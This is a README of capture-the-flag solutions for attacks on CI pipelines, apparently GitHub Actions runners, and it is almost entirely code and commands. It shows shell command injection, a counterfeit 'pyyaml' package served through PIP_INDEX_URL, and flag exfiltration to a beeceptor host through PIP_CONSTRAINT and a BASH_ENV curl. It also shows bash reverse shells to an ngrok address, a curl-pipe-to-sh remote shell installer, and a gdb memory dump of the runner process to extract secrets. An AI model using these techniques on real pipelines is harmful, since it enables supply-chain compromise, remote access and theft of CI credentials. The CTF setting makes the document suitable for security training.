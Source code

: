 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("COUCOU TDF3")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Execute
``` sh
python setup.py bdist bdist_wheel
```

``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting on an exit. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Configure Beeceptor :
- Add new "Mocking Rules"
- Match value: "/<file_name>.txt"
- Response body: "pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%"

``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
## Setup (client side)
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>

 
